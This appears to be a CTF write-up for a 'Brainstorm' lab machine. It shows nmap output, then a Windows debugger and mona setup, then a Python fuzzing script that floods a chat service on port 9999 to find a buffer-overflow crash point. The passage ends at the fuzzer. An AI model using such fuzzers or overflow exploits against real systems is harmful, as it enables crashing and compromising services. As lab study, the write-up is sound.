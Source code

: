 ```shell
SF::\x20Write\x20a\x20message:\x20")%r(SSLSessionReq,63,"Welcome\x20to\x20
SF:Brainstorm\x20chat\x20\(beta\)\nPlease\x20enter\x20your\x20username\x20
SF:\(max\x2020\x20characters\):\x20Write\x20a\x20message:\x20")%r(Terminal
SF:ServerCookie,63,"Welcome\x20to\x20Brainstorm\x20chat\x20\(beta\)\nPleas
SF:e\x20enter\x20your\x20username\x20\(max\x2020\x20characters\):\x20Write
SF:\x20a\x20message:\x20");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.81 seconds


```


Soooo a bunch of things , we found and ftp a web server and some strange service on 9999 , so now lets see what we can do with the 21 port and 3399

## OK , IM WRITTING THIS A WEEK LATER , 

The exploit in this is a buffer overflow , we got the exe , and the dll function , the problem was the freaking download from the FTP , 

****SO HERE IT IS ON HOW TO SOLVE IT , ON THE FTP , FIRST OF ALL , WE NEED TO RUN **binary** , AFTER THAT ALL THE DOWNLOAD MADE FROM THE FTP , ARE SECURE  AND COMPLETE . ****

So after this i made a win 7 x32 machine , install Immunity Debugger , and download mona.py

And run 

`!mona config -set workingfolder c:\mona\%p`

So lets start , all the baseline on this machine im getting it from #Buffer-Overflow Prep THM. 

So lets fuzz first , and for that im changin a python script , to check how many bytes this machine can take  . 

```shell


#!/usr/bin/python 

import sys, socket

ip = '192.168.195.149'
port = 9999
buffer = ['A']
counter = 100

while len(buffer) <= 30:
    buffer.append('A'*counter)
    counter = counter + 100
try:
    for string in buffer:
        print '[+] Sending %s bytes...' % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send("davs" '\r\n')
        s.recv(1024)
        s.send(string + '\r\n')
        print '[+] Done'
except:
    print '([!] A connection cant be stablished to the program. It may have crashed.)'
    sys.exit(0)
finally:
```